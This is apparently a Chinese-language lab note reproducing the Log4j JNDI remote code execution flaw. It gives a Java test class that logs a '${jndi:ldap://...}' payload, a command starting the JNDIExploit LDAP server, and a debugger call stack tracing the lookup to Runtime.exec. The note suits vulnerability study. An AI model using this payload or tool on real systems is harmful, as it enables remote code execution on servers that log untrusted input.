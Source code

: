**<font style="color:rgb(51, 51, 51);">此次漏洞触发条件为只要外部用户输入的数据会被日志记录，即可造成远程代码执行</font>**

## **<font style="color:rgb(51, 51, 51);">复现</font>**
```plain
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;


public class Test {
    private static final Logger logger = LogManager.getLogger(Test.class);

    public static void main(String[] args) {
        logger.error("${jndi:ldap://127.0.0.1:1389/Basic/Command/calc}");
    }
}
```

jdni

```plain
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 127.0.0.1
```

![](https://cdn.nlark.com/yuque/0/2025/png/36112066/1747710870669-87d487ca-21d2-431c-bca4-cf0ebf92b928.png)

因为命令执行在runtime exec 

可以在exec打上断点看下调用栈

![](https://cdn.nlark.com/yuque/0/2025/png/36112066/1747714195404-a4e7ce53-1cc9-4184-a03c-756b264738ee.png)

```plain
exec:485, Runtime (java.lang)
<init>:-1, ExploitgJlWqLWBF3
newInstance0:-1, NativeConstructorAccessorImpl (sun.reflect)
newInstance:62, NativeConstructorAccessorImpl (sun.reflect)
newInstance:45, DelegatingConstructorAccessorImpl (sun.reflect)
newInstance:423, Constructor (java.lang.reflect)
newInstance:442, Class (java.lang)
getObjectFactoryFromReference:163, NamingManager (javax.naming.spi)
getObjectInstance:189, DirectoryManager (javax.naming.spi)
c_lookup:1085, LdapCtx (com.sun.jndi.ldap)
p_lookup:542, ComponentContext (com.sun.jndi.toolkit.ctx)
lookup:177, PartialCompositeContext (com.sun.jndi.toolkit.ctx)
lookup:205, GenericURLContext (com.sun.jndi.toolkit.url)
lookup:94, ldapURLContext (com.sun.jndi.url.ldap)
lookup:417, InitialContext (javax.naming)
lookup:172, JndiManager (org.apache.logging.log4j.core.net)
lookup:56, JndiLookup (org.apache.logging.log4j.core.lookup)
lookup:221, Interpolator (org.apache.logging.log4j.core.lookup)
resolveVariable:1110, StrSubstitutor (org.apache.logging.log4j.core.lookup)
substitute:1033, StrSubstitutor (org.apache.logging.log4j.core.lookup)
substitute:912, StrSubstitutor (org.apache.logging.log4j.core.lookup)
replace:467, StrSubstitutor (org.apache.logging.log4j.core.lookup)
format:132, MessagePatternConverter (org.apache.logging.log4j.core.pattern)
format:38, PatternFormatter (org.apache.logging.log4j.core.pattern)
toSerializable:344, PatternLayout$PatternSerializer (org.apache.logging.log4j.core.layout)
toText:244, PatternLayout (org.apache.logging.log4j.core.layout)
encode:229, PatternLayout (org.apache.logging.log4j.core.layout)
encode:59, PatternLayout (org.apache.logging.log4j.core.layout)
directEncodeEvent:197, AbstractOutputStreamAppender (org.apache.logging.log4j.core.appender)
tryAppend:190, AbstractOutputStreamAppender (org.apache.logging.log4j.core.appender)
append:181, AbstractOutputStreamAppender (org.apache.logging.log4j.core.appender)
tryCallAppender:156, AppenderControl (org.apache.logging.log4j.core.config)
callAppender0:129, AppenderControl (org.apache.logging.log4j.core.config)
callAppenderPreventRecursion:120, AppenderControl (org.apache.logging.log4j.core.config)
```